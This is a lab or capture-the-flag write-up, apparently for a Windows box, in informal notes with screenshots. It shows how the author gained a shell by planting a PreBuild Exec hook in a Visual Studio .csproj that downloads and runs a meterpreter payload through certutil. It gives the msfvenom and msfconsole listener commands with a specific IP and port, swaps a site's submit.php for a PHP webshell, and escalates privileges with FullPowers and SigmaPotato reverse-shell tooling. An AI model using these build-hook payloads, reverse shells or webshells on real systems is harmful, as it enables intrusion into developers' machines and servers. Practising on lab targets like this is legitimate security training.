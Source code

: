 
# Git with vengeance 

Build a solution from Visual Studio code. C# project will do. 

Right click on the project and go to the build section.

(!Picture)

Load a payload into the pre-compile actions.
Which can be found in the picture below. This is located at `*.csproj`
![Payload](attachments/Pastedimage20231005201455.png)

Utilizing the PreBuild tag, the Exec command = PAYLOAD

---

First attempt failed, Reverse shell in the Prebuild is crashing or having some kind of issue. 

Need to change from powershell reverse shell into a MSFpayload with metasploit

![[Pasted image 20231005211129.png]]

Build failed (Sad Trombone)
But what did work was getting wells correct .sln file.

```pre
  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="certutil -f -urlcache http://10.10.14.4:6969/plz.exe c:\users\public\plz.exe&#xD;&#xA;c:\users\public\plz.exe" />
```

This is how inside the .csproj we get the payload to fire.


Payload was 
```msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9001 -f exe -o plz.exe

```

Listener was 

```msfconsole
sfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/
reverse_tcp; set lhost 10.10.14.4; set lport 9001; exploit"
```


![[Pasted image 20231005231302.png]]

This is the server yanking the files from me and finally executing my staged payload.

Doing some WinPEAS we can find the service XAMPP hosting the webpage we interact with

Doing `C:\ dir /B /S index.php 

We can find the Area for the webpage we have been interacting with

![[Pasted image 20231005231850.png]]


From here we can replace the submit.php file with a php webshell

From the some of our shells we can use certutil.exe to bring another staged payload to the box, but host it on another port. 

![[Pasted image 20231005232038.png]]

From here we can use the webshell we moved onto the box. Browse to the /submit.php 

![[Pasted image 20231005232132.png]]

We now have the access level of![[Pasted image 20231005232257.png]]

Nice but not quite what we need. Working with dabois we found FullPower.exe 

https://github.com/itm4n/FullPowers
On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to **run with a restricted set of privileges**. Therefore, even if the service is compromised, **you won't get the golden impersonation privileges** and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you **create a scheduled task**, the new process created by the **Task Scheduler Service** has **all the default privileges** of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.


So once we run that we now have the ability to gain SEimpersonate YIPEEE

Now using Tylers WICKED updated SIGMA POTATO

https://github.com/tylerdotrar/SigmaPotato

Which he lovingly built in with a revshell. 

FullPower.exe; SigmaPotato.exe --revshell IP PORT

![[Pasted image 20231005232627.png]]

YEEEEE

